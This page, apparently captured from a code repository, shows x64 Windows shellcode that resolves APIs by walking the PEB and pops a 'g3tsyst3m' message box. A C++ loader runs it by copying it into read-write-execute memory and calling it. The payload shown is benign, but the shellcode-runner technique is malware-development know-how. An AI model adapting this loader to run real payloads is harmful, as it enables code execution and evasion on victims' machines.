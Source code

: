 ```c++
"\xec\x30\x41\xff\xd7\x48\x83\xc4\x30\x31\xc9\x41\xff\xd6";
```

**And the c++ program itself:**

```c++
#include <windows.h>
#include <iostream>

// Shellcode (as given, formatted for clarity)
unsigned char shellcode[] =
"\x48\x83\xec\x28\x48\x83\xe4\xf0\x48\x31\xc9\x65\x48\x8b\x41\x60\x48\x8b\x40\x18\x48\x8b"
"\x70\x10\x48\x8b\x36\x48\x8b\x36\x48\x8b\x5e\x30\x49\x89\xd8\x8b\x5b\x3c\x4c\x01\xc3\x48"
"\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x44\x8b\x52\x14\x4d"
"\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4c\x89\xd1\x48\xb8\x64\x64\x72\x65\x73\x73\x90\x90"
"\x48\xc1\xe0\x10\x48\xc1\xe8\x10\x50\x48\xb8\x47\x65\x74\x50\x72\x6f\x63\x41\x50\x48\x89"
"\xe0\x67\xe3\x20\x31\xdb\x41\x8b\x1c\x8b\x4c\x01\xc3\x48\xff\xc9\x4c\x8b\x08\x4c\x39\x0b"
"\x75\xe9\x44\x8b\x48\x08\x44\x39\x4b\x08\x74\x03\x75\xdd\xcc\x51\x41\x5f\x49\xff\xc7\x4d"
"\x31\xdb\x44\x8b\x5a\x1c\x4d\x01\xc3\x43\x8b\x04\xbb\x4c\x01\xc0\x50\x41\x5f\x4d\x89\xfc"
"\x4c\x89\xc7\x4c\x89\xc1\xb8\x61\x72\x79\x41\x50\x48\xb8\x4c\x6f\x61\x64\x4c\x69\x62\x72"
"\x50\x48\x89\xe2\x48\x83\xec\x30\x41\xff\xd7\x48\x83\xc4\x30\x49\x89\xc7\x4d\x89\xe6\x48"
"\x89\xf9\xb8\x65\x73\x73\x90\xc1\xe0\x08\xc1\xe8\x08\x50\x48\xb8\x45\x78\x69\x74\x50\x72"
"\x6f\x63\x50\x48\x89\xe2\x48\x83\xec\x30\x41\xff\xd6\x48\x83\xc4\x30\x49\x89\xc6\xb8\x6c"
"\x6c\x90\x90\xc1\xe0\x10\xc1\xe8\x10\x50\x48\xb8\x75\x73\x65\x72\x33\x32\x2e\x64\x50\x48"
"\x89\xe1\x48\x83\xec\x30\x41\xff\xd7\x48\x89\xc7\x48\x89\xf9\xb8\x6f\x78\x41\x90\xc1\xe0"
"\x08\xc1\xe8\x08\x50\x48\xb8\x4d\x65\x73\x73\x61\x67\x65\x42\x50\x48\x89\xe2\x48\x83\xec"
"\x30\x41\xff\xd4\x49\x89\xc7\x48\x31\xc9\xb8\x6d\x90\x90\x90\xc1\xe0\x18\xc1\xe8\x18\x50"
"\x48\xb8\x67\x33\x74\x73\x79\x73\x74\x33\x50\x48\x89\xe2\x49\x89\xe0\x45\x31\xc9\x48\x83"
"\xec\x30\x41\xff\xd7\x48\x83\xc4\x30\x31\xc9\x41\xff\xd6";


int main() {
    // Allocate executable memory
    void* exec_mem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (exec_mem == nullptr) {
        std::cerr << "Memory allocation failed\n";
        return -1;
    }

    // Copy shellcode to the allocated memory
    memcpy(exec_mem, shellcode, sizeof(shellcode));

    // Create a function pointer to the shellcode
    auto shellcode_func = reinterpret_cast<void(*)()>(exec_mem);

    // Execute the shellcode
    shellcode_func();

    // Free the allocated memory
    VirtualFree(exec_mem, 0, MEM_RELEASE);

    return 0;
}
```
